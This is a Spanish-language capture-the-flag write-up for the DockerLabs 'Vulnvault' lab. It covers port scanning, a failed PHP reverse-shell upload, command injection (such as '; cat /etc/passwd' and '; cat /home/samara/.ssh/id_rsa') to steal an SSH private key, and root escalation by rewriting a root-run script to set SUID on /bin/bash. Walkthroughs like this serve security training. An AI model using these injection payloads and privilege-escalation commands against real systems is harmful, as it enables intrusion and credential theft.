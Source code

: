 # Vulnvault: Inyección de Comandos, Acceso SSH y Escalada de Privilegios en DockerLabs

Este documento detalla la resolución del ejercicio "Vulnvault" de DockerLabs, que implica la explotación de una vulnerabilidad de inyección de comandos para obtener acceso inicial, la extracción de una clave SSH para acceder al sistema y la posterior escalada de privilegios a `root` mediante el abuso de un script con permisos de superusuario.

## 1. Reconocimiento Inicial de Puertos con Nmap

```bash
nmap -O -sV -sC -p- <IP_DEL_OBJETIVO>
```

**Resultados:**

*   `22/tcp open ssh OpenSSH 9.6p1`: El puerto 22 (SSH) está abierto, lo que indica que podemos intentar acceder al sistema por esta vía si encontramos credenciales.
*   `80/tcp open http Apache httpd 2.4.58`: El puerto 80 (HTTP) está abierto y ejecuta un servidor web Apache. El título de la página (`Generador de Reportes - Centro de Operaciones`) sugiere una funcionalidad de generación de informes.

### 1.2. Fuzzing de Directorios con Gobuster

```bash
gobuster dir -w /path/to/wordlist/directory-list-lowercase-2.3-medium.txt -u http://<IP_DEL_OBJETIVO> -x php,html,txt
```

**Resultados Relevantes:**

*   `/index.php`: Página principal.
*   `/upload.html` y `/upload.php`: Sugieren una funcionalidad de carga de archivos.
*   `/old`: Un directorio que podría contener versiones antiguas o información sensible.

## 2. Explotación de Vulnerabilidades

### 2.1. Intento de Carga de Archivos (y su fallo)

Inicialmente, intentamos subir una `reverse shell` en PHP a través de la interfaz de carga de archivos (`upload.html`). Creamos un archivo `exploit.php` con el contenido de una `php-reverse-shell` (modificando la IP y el puerto a los de nuestra máquina atacante).
`https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php`

```php
// ...
$ip = '<IP_DE_TU_KALI>';  // CAMBIAR ESTO
$port = 443;       // CAMBIAR ESTO
// ...
```

Tras subir el archivo, al intentar acceder a `http://<IP_DEL_OBJETIVO>/upload.php`, el servidor indica "No se ha enviado ningún archivo.". Capturando la petición con Burp Suite, observamos que el servidor reporta un "Error al mover el archivo". Esto sugiere que la funcionalidad de carga está presente, pero hay restricciones en el movimiento o ejecución de los archivos subidos, lo que nos obliga a buscar otra vía.

![[Vulnvault_Burpsuite1.png]]

![[Vulnvault_Burpsuite2.png]]

### 2.2. Inyección de Comandos en el Generador de Reportes

Exploramos la funcionalidad de "Generador de Reportes" en la página principal. Intentamos una inyección de comandos en los campos de entrada, ya que a menudo estas funcionalidades ejecutan comandos del sistema para generar los informes.

Al introducir `; whoami` y `; ls` en los campos observamos que los comandos se ejecutan y sus salidas se muestran en el reporte. Esto confirma una vulnerabilidad de inyección de comandos.

![[Vulnvault_CommandInjection1.png]]

![[Vulnvault_CommandInjection2.png]]

**Resultados Clave:**

*   `whoami` revela que el usuario del servidor web es `www-data`.
*   `ls` muestra los archivos del directorio actual.
*   Identificamos al usuario `samara` a través de la lectura de `/etc/passwd` (realizada mediante inyección de comandos: `; cat /etc/passwd`).

## 3. Acceso Inicial (SSH)

Con la inyección de comandos, podemos leer archivos del sistema. Buscamos información sensible que nos permita acceder al sistema vía SSH.

### 3.1. Extracción de la Clave SSH de `samara`

Utilizando la inyección de comandos, intentamos listar el contenido del directorio `/home/samara/.ssh/` y leer el archivo `id_rsa`, que es la clave privada SSH del usuario `samara`.

```bash
; cat /home/samara/.ssh/id_rsa
```

La salida de este comando nos proporciona la clave privada SSH completa.

### 3.2. Conexión SSH con la Clave Privada

Para usar la clave privada, debemos asignarle los permisos correctos y luego usarla para conectarnos vía SSH.

1.  **Guardar la clave:** Crea un archivo llamado `id_rsa` en tu máquina atacante y pega el contenido de la clave obtenida.
2.  **Asignar permisos:** Las claves privadas SSH requieren permisos para ser utilizadas.

    ```bash
    chmod 600 id_rsa
    ```

3.  **Conectar vía SSH:** Utiliza la clave para conectarte como `samara`.

    ```bash
    ssh -i id_rsa samara@<IP_DEL_OBJETIVO>
    ```

Si la conexión es exitosa, hemos obtenido acceso inicial al sistema como el usuario `samara`.

### 3.3. Lectura de `user.txt`

Una vez dentro como `samara`, podemos acceder al archivo `user.txt` para obtener la primera flag.

```bash
cat user.txt

030208509edea7480a10b84baca3df3e
```

## 4. Escalada de Privilegios

Una vez que tenemos una shell como `samara`, el objetivo es escalar privilegios a `root`.

### 4.1. Identificación de Procesos con Privilegios

Buscamos procesos que se ejecuten como `root` y que puedan ser abusados. Utilizamos `ps aux` para listar todos los procesos y filtramos por `root`.

```bash
ps aux | grep root
```

**Resultados Clave:**

Observamos una línea similar a:

*   `root 1 ... /bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done`

Esto indica que un script llamado `/usr/local/bin/echo.sh` se ejecuta periódicamente como `root`.

### 4.2. Análisis y Abuso de `/usr/local/bin/echo.sh`

Leemos el contenido del script para entender su función:

```bash
cat /usr/local/bin/echo.sh
```

**Contenido Original:**

```bash
#!/bin/bash  
  
echo "No tienes permitido estar aqui :(." > /home/samara/message.txt  
```

El script simplemente escribe un mensaje en `/home/samara/message.txt`. Dado que se ejecuta como `root` y tenemos permisos de escritura en `/home/samara/`, podemos modificar este script para ejecutar comandos con privilegios de `root`.

**Modificación del Script:**

Editamos el script para que, en lugar de escribir un mensaje, nos otorgue una shell con privilegios de `root` (estableciendo el bit SUID en `/bin/bash`).

```bash
echo '#!/bin/bash' > /usr/local/bin/echo.sh
echo 'chmod u+s /bin/bash' >> /usr/local/bin/echo.sh
```

Esperamos a que el script se ejecute (o reiniciamos el servicio si es posible y tenemos permisos). Una vez que se haya ejecutado, `/bin/bash` tendrá el bit SUID activado.

### 4.3. Obtención de Shell de Root

Con el bit SUID establecido en `/bin/bash`, podemos ejecutar `bash` con los privilegios del propietario del archivo (en este caso, `root`).

```bash
bash -p
```

Verificamos nuestros privilegios:

```bash
whoami
# root
```

Confirmamos que hemos escalado exitosamente a `root`.

### 4.4. Lectura de `root.txt`

Finalmente, accedemos al archivo `root.txt` para obtener la flag final.

```bash
ls /root
cat /root/root.txt
# <Contenido de root.txt>
```
